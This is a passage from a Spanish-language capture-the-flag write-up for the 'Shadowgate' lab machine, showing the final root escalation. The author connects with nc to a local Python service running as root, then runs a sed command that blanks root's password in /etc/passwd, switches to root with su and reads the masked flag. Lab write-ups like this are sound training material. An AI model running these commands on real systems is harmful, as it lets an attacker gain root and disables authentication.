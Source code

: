 sabiendo esto escribiremos código en python y veremos que pasa:

```css
mars@TheHackersLabs-Shadowgate:~$ nc 127.0.0.1 4444
Welcome to Shadow Client Helper
This is an unrestricted environment. Good luck, hacker.
>>> import os
>>> os.system("id > /tmp/id")
>>> 
mars@TheHackersLabs-Shadowgate:~$ cat /tmp/id 
uid=0(root) gid=0(root) groups=0(root)
mars@TheHackersLabs-Shadowgate:~$ 
```

y como vemos se ejecuta y además como root. Por lo que simplemente ejecutaremos el siguiente código para escalar a root:

```css
mars@TheHackersLabs-Shadowgate:~$ nc 127.0.0.1 4444
Welcome to Shadow Client Helper
This is an unrestricted environment. Good luck, hacker.
>>> import os
>>> os.system("sed 's/root:x:/root::/g' -i /etc/passwd")
>>> 
mars@TheHackersLabs-Shadowgate:~$ su
root@TheHackersLabs-Shadowgate:/home/mars# 
```

y seremos root.

## Root

Como usuario root podremos leer la flag de root:

```css
root@TheHackersLabs-Shadowgate:~# cat root.txt
********************************
root@TheHackersLabs-Shadowgate:~# 
```

![Pwn3d](images/shadowg/pwned.png)

Gracias por leer ;)
